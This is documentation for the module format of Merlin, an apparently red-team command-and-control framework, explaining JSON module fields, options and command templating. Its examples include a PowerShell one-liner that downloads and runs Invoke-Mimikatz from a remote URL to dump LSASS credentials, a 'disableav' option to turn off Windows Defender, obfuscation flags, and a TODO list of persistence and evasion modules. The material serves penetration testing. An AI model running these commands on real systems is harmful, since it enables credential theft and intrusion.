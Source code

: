 # Merlin Module
Modules are used to perform a set of pre-defined actions or execute a
program on an agent. The modules are described using JavaScript Object
Notation (JSON). Modules will be stored in `platform/arch/language/type`
 directories. Every module _must_ have the `base` object and _may_ have
 additional objects. Examples of the module structures can be found in
 the `data/modules/templates` directory. All keys used when describing a
 module will be lowercase (i.e. name and NOT Name).

## Base
The `base` module is required and is the lowest level of describing a
module and its function.


 Name   | Type  | Description | Example
 ---    | ---   | ---   | ---
 name   | string | The name of the module | "name": "MyModuleName"
 author | array of strings  | A list of the module's authors | "author": ["Russel Van Tuyl (@Ne0ndog)", "Victor Garcia"]
 path   | array of strings | The file path to the module| "path": ["C", "windows", "system32"]
 platform   | string | The target platform the module can run on | "platform": "linux"
 arch   | string | The target architecture the module can run on | "arch": "x64"
 lang   | string | The target language the module leverages | "lang": "powershell" or "lang": "bash"
 privilege | bool | Does the module require elevated privileges? | "privilege": true
 notes | string | Miscelaneous notes about the module | "notes": "This module doesn't work well on Ubuntu 14.04"
 remote | string | The remote path where the script associated with the module can be found | "remote": "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1"
 local | array of strings | The local file system path where the script associated with the module can be found | "local": ["data", "src", "PowerSploit", "Exfiltration", "Invoke-Mimikatz.ps1"]
 options | array of objects | The configurable options for the module | "options": [{"name": "DumpCreds", "value": "true", "required": false, "description":"[Switch]Use mimikatz to dump credentials out of LSASS."}]
 description | string | A description of the module and its function | "description": "his script leverages Mimikatz 2.0 and Invoke-ReflectivePEInjection to reflectively load Mimikatz completely in memory."
 commands | array of strings | A list of the commands to be executed on the host when running the script | "commands": ["powershell.exe", "-nop", "-w", "0", "\"IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');","Invoke-Mimikatz", "{{DumpCreds.Flag}}", "{{DumpCerts.Flag}}", "{{Command}}", "{{ComputerName}}","\""]


### Remote vs Local
When the module leverages a script, it can be accessed with _either_ the
 `local` or `remote` values of the base module. The `local` specifies
 the file path on the server where the script can be found. Merlin _DOES
 NOT_ ship with scripts. However, they should be copied to the
 `data/source` directory using something like Git. For example, you move
 into the `data/source` direct and do a
 `git clone https://github.com/PowerShellMafia/PowerSploit.git`. When
the `local` source is used, the script is uploaded to the target from
the server. When the `remote` source is used, the script is downloaded
from that location to the target.

### Options
The `options` uses a special data type that requires 4 parts.

 Name   | Type  | Description | Example
 ---    | ---   | ---   | ---
 name | string | The name of the option | "name": "ComputerName"
 value | string | The configured value for the option | "value": "127.0.0.1"
 required | bool | Is this option required? | "required": false
 flag   | string | The command line flag for the option | "flag": "-ComputerName"
 description | string | A short description of the option | "description": "The target computer name to run the script on"

`name` is the name of the option displayed to the user and is used as a
variable in the `commands` section of the module file.

Sometimes a command line flag starts with a single dash and other times
it starts with a double dash (i.e. -h or --help). Other times the
command line flag is not descriptive enough to present to the user.
For example `-x` would not be a good name to display to the user when
configuring a module. For these reasons, the `flag` value is separate
from the `name` value. The `name` value can be used to alias the `flag`
value.

### Commands
The `commands` section of the module is used to provide the commands
that are going to be executed on the host. The array should consist of
every command in its own list item. You do not need to account for
spaces. This is automatically done when the command is executed on the
host.

You specify the location of an `option` by using double curly brace and
the option's `name` value. For example if want to create a module to use
the PowerShell Get-Process cmdlet with an option to specify the process
name, the command section would like
`["Get-Process", "{{processName}}"]`. When the module is executed, the
`{{processName}}` variable is replace with the option's `flag` value
and `value` data. The option is removed from the command if the `value`
is empty. This should the most common and practical notation.

When the `flag` is just a switch, as in it has no value, set the option
in the command section using {{processName.Flag}}. When the module is
executed, only the flag value will be provided and not the `value` data.
 It is important to note that the `value` must be `true` for the flag to
 be set. All other values will result in the flag being not set.

When the command take a positional character with no flag, use
`{{processName.Value}}`. When the module is executed, it will be replace
 with the option's `value` data or removed if `value` is empty.

## Powershell
The `powershell` module is used to provide additional configuration
options that pertain to PowerShell commands. Support for this module
type is currently lacking. At this time is being used as placeholder
for future development.

 Name   | Type  | Description | Example
 ---    | ---   | ---   | ---
 disableav | bool | Should Windows Defender be disabled prior to running the command? | "disableav" : true
 obfuscate | bool | Should the PowerShell command be obfuscated? | "obfuscate": false
 base64     | bool | Should the command be Base64 encoded? | "base64": true


 ### TODO
 * Add persistence module for PowerShell $PROFILE
 * Add persistence module for Windows Startup
 * Add persistence module for scheduled task
 * Add PowerView
 * Add BloodHound
 * Create tool download 3rd party scripts by name into /data/src by name or all
 * Add Invoke-Mimikittenz module
 * Add Power-Memory module
 * Add PowerShell-Suite module
 * Add Inviegh module
 * Add Invoke-TheHash modules
 * Add PowerSploit modules
 * Add Nishang modules
 * Add Linux Exploit Suggester module pentestmonkey, penturalabs
 * Add windows-exploit-suggester
 * Add winsploit as a non-basic Merlin module by porting functionality
 * https://github.com/slimm609/checksec.sh
 * Tater.ps1
 * Create a module for every MITRE ATT&CK
 * Create a persistence module from https://bohops.com/2018/02/26/leveraging-inf-sct-fetch-execute-techniques-for-bypass-evasion-persistence/
 * Port this to a Merlin Script https://github.com/harleyQu1nn/AggressorScripts/blob/master/EDR.cna
 * Add letmein.ps1 from https://github.com/0xdea/tactical-exploitation
 * Add modules for these code execution methods where applicable https://github.com/pwndizzle/CodeExecutionOnWindows